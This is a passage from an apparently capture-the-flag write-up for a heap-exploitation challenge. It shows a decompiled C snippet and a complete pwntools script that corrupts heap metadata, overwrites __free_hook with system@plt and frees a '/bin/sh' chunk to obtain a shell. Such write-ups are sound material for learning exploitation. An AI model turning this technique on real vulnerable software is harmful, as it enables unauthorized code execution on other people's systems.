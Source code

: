 ``` c
canary = __readfsqword(0x28u);
system("clear");
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
puts("It's Minecraft time! Your speedrun starts... now!");
```

So system is in our plt and we gain with no PIE we can just point `__free_hook` at that plt system. Here is the final exploit code:

```python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
delete(2)

create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
    0x518: p64(mem-0x10),
}))

create(2, 0x500, b"D"*0x80)

create(3, 0x500, p16(free_hook)) #partial overwrite of libc pointer

pause()
edit(0, p64(0x00401110)) #inserting plt of system into free hook

io.sendlineafter(b"poem", b"b")
io.sendlineafter(b":", f"{0x1}".encode()) #freeing /bin/sh\x00

io.sendline(b"ls") #sanity cmd

io.interactive()
io.close()
```
